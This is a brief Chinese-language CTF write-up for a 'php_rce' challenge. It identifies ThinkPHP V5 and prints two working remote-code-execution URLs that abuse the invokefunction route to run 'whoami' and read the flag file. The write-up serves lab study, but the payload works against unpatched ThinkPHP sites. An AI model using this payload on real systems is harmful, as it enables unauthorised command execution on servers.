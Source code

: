 # php_rce

首先进入环境发现是ThinkPHP V5，之前有做到过类似的，这个版本有漏洞，这是相关文章https://learnku.com/articles/21227

![image-20240323182540078](%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8C%E9%A2%98%E8%A7%A3.assets/image-20240323182540078.png)

```
http://61.147.171.105:54705/?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
```

直接构造payload![image-20240323182633845](%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8C%E9%A2%98%E8%A7%A3.assets/image-20240323182633845.png)

```
http://61.147.171.105:54705/?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat%20/flag
```

![image-20240323182709961](%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8C%E9%A2%98%E8%A7%A3.assets/image-20240323182709961.png)